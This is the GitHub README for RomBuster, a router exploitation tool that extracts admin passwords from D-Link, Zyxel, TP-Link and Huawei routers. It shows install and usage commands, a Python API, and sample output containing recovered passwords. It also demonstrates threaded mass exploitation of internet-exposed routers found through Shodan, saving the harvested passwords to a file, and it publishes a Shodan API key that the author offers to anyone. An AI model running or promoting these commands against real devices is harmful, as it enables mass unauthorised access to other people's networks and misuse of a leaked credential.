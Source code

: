 # RomBuster

RomBuster is a router exploitation tool that allows to disclosure network router admin password.

## Features

* Exploits vulnerabilities in most popular routers such as `D-Link`, `Zyxel`, `TP-Link` and `Huawei`.
* Optimized to exploit multiple routers at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--api API]

RomBuster is a router exploitation tool that allows to disclosure network
router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --api API             Shodan API key for exploiting devices over Internet.
```

### Examples

Let's hack my router just for fun.

```shell
rombuster -a 192.168.2.1
```

**output:**

```shell
[*] (192.168.2.1) - connecting to router...
[*] (192.168.2.1) - accessing router rom...
[*] (192.168.2.1) - extracting admin password...
[i] (192.168.2.1) - password: SuperHardPassword999
```

Let's try to use Shodan search engine to exploit routers over Internet and save all obtained passwords to `passwords.txt`, we will use it with `-t` for fast exploitation.

```shell
rombuster -t --api PSKINdQe1GyxGgecYz2191H2JoS9qvgD -o passwords.txt
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**output:**

```shell
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to router...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to router...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

Let's try to use opened database of routers with `-t` for fast exploitation.

```shell
rombuster -t -i routers.txt -o passwords.txt
```

**NOTE:** It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to router...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to router...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to router...
[*] (x.x.x.x) - accessing router rom...
[*] (x.x.x.x) - extracting admin password...
[i] Thread #2 completed.
```

## RomBuster API

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code:

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified router.

* `connect(host)` - Connect specified router by network address.
* `exploit(router)` - Exploit connected router.

### Examples

```python
from rombuster import RomBuster

rombuster = RomBuster()

router = rombuster.connect('192.168.2.1')
print(rombuster.exploit(router))
```

**output:**

```shell
'SuperHardPassword999'
```

## Other tools

<p>
    <a href="https://github.com/EntySec/Ghost">
        <img src="https://img.shields.io/badge/EntySec-%20Ghost-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/EntySec-%20HatVenom-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Shreder">
        <img src="https://img.shields.io/badge/EntySec-%20Shreder-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatSploit">
        <img src="https://img.shields.io/badge/EntySec-%20HatSploit-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamOver">
        <img src="https://img.shields.io/badge/EntySec-%20CamOver-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/EntySec-%20CamRaptor-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/membrane">
        <img src="https://img.shields.io/badge/EntySec-%20membrane-f34c79.svg">
    </a>
    <a href="https://github.com/EntySec/pwny">
        <img src="https://img.shields.io/badge/EntySec-%20pwny-448eff.svg">
    </a>
</p>
